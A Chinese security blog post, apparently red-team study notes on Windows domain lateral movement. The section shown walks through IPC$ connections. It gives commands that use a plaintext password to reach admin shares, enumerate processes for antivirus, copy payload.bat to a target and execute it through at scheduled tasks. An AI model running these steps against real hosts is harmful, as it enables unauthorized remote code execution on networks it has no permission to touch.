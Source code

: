 ```yaml
---
typora-root-url: ../../../static
title: "第五章：域内横向移动分析及防御"
date: 2021-05-22T12:07:36+08:00
draft: false
categories: ["security"]
---
```


## IPC
IPC的利用条件如下所示：

- 开启了139和445端口：IPC$需要139和445端口的支持。
- 管理员开启了默认共享：通过IPC$，可以实现对这些默认共享目录的访问。
- 知道目标的账号密码。

例如输入如下命令即可建立IPC连接：

	net use \\192.168.52.138\ipc$ "123456789_CG" /user:pinger

输入如下命令查看当前的连接：

	net use

建立连接后，可以通过使用如下命令先简单的获取目标的一些信息：

	# 获取目标C盘目录信息
	dir \\192.168.52.138\\c$
	# 获取目标运行的进程（查看是否有杀软等）
	tasklist /S 192.168.52.138 /U pinger /P 123456789_CG

最后，可以利用计划任务结合IPC进行命令执行，主要分为两种方式：at方式和schtasks方式，前者比较适用于windows server 2008之前的版本。

（1）at方式：

首先查看目标机器的当前时间：

	net time \\192.168.50.138

然后将包含命令的文件上传到目标机器：

	copy payload.bat \\192.168.52.138\C$

接着使用at创建计划任务执行payload.bat

	# 利用计划任务无回显执行命令
	at \\192.168.52.138 14:59PM C:\payload.bat
	# 利用计划任务带回显执行命令
	at \\192.168.52.138 14:59PM cmd.exe /c "ipconfig >C:/res.txt"
	# 查看命令直接结果
	type \\192.168.52.138\C$:\\res.txt
	# 如果遇到了计划任务提示：无效句柄，则需要添加HOST
	echo 192.168.52.138 DcHost >>　C:\windows\system32\drivers\etc\hosts

